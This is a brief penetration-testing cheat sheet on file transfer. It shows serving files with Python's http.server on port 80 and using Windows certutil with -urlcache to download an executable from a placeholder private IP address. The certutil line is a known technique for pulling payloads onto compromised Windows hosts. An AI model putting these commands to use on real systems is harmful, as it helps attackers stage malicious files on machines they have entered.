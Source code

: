 **transfer files**

**HOST HTTP**
(python3)
python3 -m http.server 80

wget for windows
certutil .exe -urlcache -f [http://192.168.x.x/file.exe](http://192.168.x.x/file.exe)